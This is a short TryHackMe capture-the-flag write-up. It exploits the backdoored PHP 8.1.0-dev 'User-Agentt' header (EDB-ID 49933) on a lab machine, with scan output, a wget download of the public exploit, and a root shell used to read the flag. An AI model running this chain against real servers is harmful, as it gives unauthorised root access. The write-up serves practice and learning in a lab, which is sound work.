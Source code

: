# Agent T - TryHackMe Writeup

**Difficulty:** Easy  
**TL;DR:** Unauthenticated RCE via User-Agent in PHP 8.1.0-dev (EDB-ID:49933) → the flag
---------------------------
## Target
- Machine: `Agent-T`  
- Date: `2025-6-1`  
- Time: 10 min
- Environment: TryHackMe / CTF
---------------------------

## Steps
1. Initial scan:

```bash
└─$ nmap -sV -sC -Pn -T4  agentt.thm                                     

80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

2. Scan the Headers:

```bash
└─$ curl -I http://agentt.thm/
HTTP/1.1 200 OK
Host: 10.10.233.40
Date: Mon, 20 Oct 2025 08:43:32 GMT
Connection: close
X-Powered-By: PHP/8.1.0-dev
Content-type: text/html; charset=UTF-8
```

3. Find Expolit:
```bash
└─$ searchsploit PHP 8.1.0-dev          

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution        | php/webapps/49933.py

```


### EDB-ID:49933 :
```text 
the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed.
If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
```

4. Donwload the script and change the permission:
```bash
└─$ wget https://www.exploit-db.com/download/49933       

└─$ chmod +x 49933  
```

Run the script and get shell:
```bash
└─$ python3 49933            
Enter the full host url:
http://agentt.thm/

Interactive shell is opened on http://agentt.thm/ 
Can't acces tty; job crontol turned off.
$ id
uid=0(root) gid=0(root) groups=0(root)
```

### The flag :
```bash
$ cat /flag.txt
flag{[REDACTED}
```
